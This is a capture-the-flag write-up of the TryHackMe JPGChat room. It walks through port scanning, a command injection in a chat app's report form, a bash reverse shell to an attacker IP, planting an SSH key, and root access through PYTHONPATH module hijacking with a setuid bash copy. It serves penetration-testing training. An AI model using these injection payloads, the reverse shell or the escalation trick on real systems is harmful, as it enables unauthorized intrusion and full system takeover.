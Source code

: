```yaml
---
layout: post
title:  "TryHackMe - JPGChat Writeup"
date:   2021-08-17 08:47:00 -0400
categories: tryhackme pentesting cybersecurity
comments: true
---
```


[JPGChat](https://tryhackme.com/room/jpgchat) was a very quick and easy box, but it does have a simple OSINT step that was a bit of fun to follow.

## Nmap Emumeration
The first step in any pentest situation is enumeration. It's important to get as much information about the machine and its users as possible. To start off, we'll use Nmap to perform a port scan and see what services are active and listening on the box. Nmap is a versitle tool, and many people have their own preferred methods to balance speed and accuracy, but here are the options I'll use.

- `-sC`: Run default scripts. Nmap can do additional enumeration beyond just checking for open ports, and this option will run some quick and useful extra scans to give us even more information about what we're working with.
- `-sV`: Run version detection. Knowing what specific version of a service is in use can help with finding potential vulnerabilities, or ruling them out.
- `-v`: Be verbose. This outputs extra information to the console as the scan runs, the most useful of which are status updates and showing open ports as it finds them.
- `-oN`: Output to a file in the Nmap format. Having a file to refer back to intead of having to scroll through console output is very useful. Nmap can save to a variety of file formats, and you may have reasons to use them, but for me just the normal plain-text format is enough.
- `-p`: Scan specific ports. `-p<n>` will scan a specific port, and `-p-` scans every port from 1 to 65,535. While doing a full port scan is good, it can take a while, so it's good to let that one run whle you're doing other tasks.

We'll run two Nmap scans. The first one will scan the top 1000 ports that are listening to give us a strong starting point, and the second scan will run in the background and check every possible port. Since this second scan will take longer, we can let it run in the background while we work on other things.

```bash
nmap -sC -sV -v -oN nmap-initial.nmap 10.10.54.184
nmap -p- -v -oN nmap-allports.nmap 10.10.54.184
```

Nmap finds two open ports: port 22 running SSH, and port 3000. While Nmap can't identify what service is running, it does try to give us some informaiton that we can use to identify the service ourselves.

```
3000/tcp open  ppp?
| fingerprint-strings: 
|   GenericLines, NULL: 
|     Welcome to JPChat
|     source code of this service can be found at our admin's github
|     MESSAGE USAGE: use [MESSAGE] to message the (currently) only channel
|_    REPORT USAGE: use [REPORT] to report someone to the admins (with proof)
```

We get that same message if we try to connect using Netcat.

``` 
$ nc 10.10.54.184 3000
Welcome to JPChat
the source code of this service can be found at our admin's github
MESSAGE USAGE: use [MESSAGE] to message the (currently) only channel
REPORT USAGE: use [REPORT] to report someone to the admins (with proof)
```

There are two important facts that will help us proceed:

1. The name of the service is JPChat
2. The source code for the application is on GitHub somewhere.

## Command Injection

A quick Google search finds us a [GitHub repository](https://github.com/Mozzie-jpg/JPChat), and checking the source code seems to line up with the welcome message we got when connecting, so it's probably safe to assume this is the same application.

Inspecting the source code of the application, there's something interesting in the "report" function.

```python
def report_form():

	print ('this report will be read by Mozzie-jpg')
	your_name = input('your name:\n')
	report_text = input('your report:\n')
	os.system("bash -c 'echo %s > /opt/jpchat/logs/report.txt'" % your_name)
	os.system("bash -c 'echo %s >> /opt/jpchat/logs/report.txt'" % report_text)
```

The input fields for our name and report are both passed to `os.system` without any kind of filtering. This means we can probably break out of the command that was intended to be run and run our own arbitrary commands.

We'll use a single-quote to break out of the initial `bash -c` command, add a semicolon to specify that we want to start a new command, and end things off with a pound sign to comment out the rest of the line. We can do a simple proof-of-concept before we actually start running anything malicious.

```
[REPORT]
this report will be read by Mozzie-jpg
your name:
'; whoami #
your report:
'; #

wes
```

Our `whoami` command gives us a username back, meaning we do indeed have sucessful command injection. Now we can build out a reverse shell to get proper access to the box. If you've never built a reverse shell before, there are [plenty of online resources](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) to help you out. Below is one of the more basic and common bash reverse shells.

```
'; bash -c 'bash -i >& /dev/tcp/10.13.14.52/9001 0>&1'; #
```

We land as the `wes` user, who has access to the user flag. We know SSH is listening on the box, so while we're here we can also drop an SSH key in to give us better persistence. An SSH session will just be a much better experience than a reverse shell, plus it opens up potentially useful features like file transfers and port forwarding.

## Privilege Escalation
We'll start with some basic manual enumeration before we get into anything automated. There aren't any interesting files in `wes`'s home directory, but `sudo -l` gives us a useful find.

```
Matching Defaults entries for wes on ubuntu-xenial:
    mail_badpass, env_keep+=PYTHONPATH

User wes may run the following commands on ubuntu-xenial:
    (root) SETENV: NOPASSWD: /usr/bin/python3 /opt/development/test_module.py
```

There are two things we should take away from this information:

1. `wes` can run the `test_module.py` script as root without entering a password.
2. The `PYTHONPATH` environment variable will be retained when running commands with `sudo`

The `test_module.py` script is only writeable by root, meaning we can't just edit it, so we'll need to find another way to exploit that script.

If you aren't already familiar with Python's environment variables, a quick Google search will show you that the `PYTHONPATH` variable declares the location that Python should look for modules and packages. We can read the contents of the `test_module.py` and see that it imports the `compare` module. If we could make our own malicious `compare` module and force the script to load it with the `PYTHONPATH` variable, that should be enough to root the box.

```python
import os

class compare:
  def Str(s1,s2,s3):
    os.system('cp /bin/bash /bin/sbash')
    os.system('chmod +s /bin/sbash')
```

This script creates a copy of `bash` and then sets the [setuid bit](https://man7.org/linux/man-pages/man2/setuid.2.html) on that copy, which will give us a root shell if we run the copy with the `-p` flag. We'll create a folder to store our script in, save it as `compare.py`, and add that folder to the `PYTHONPATH` variable.

```bash
export PYTHONPATH=/home/wes/mod
sudo python3 /opt/development/test_module.py
/bin/sbash -p
```

We now have root access and can grab the root flag.
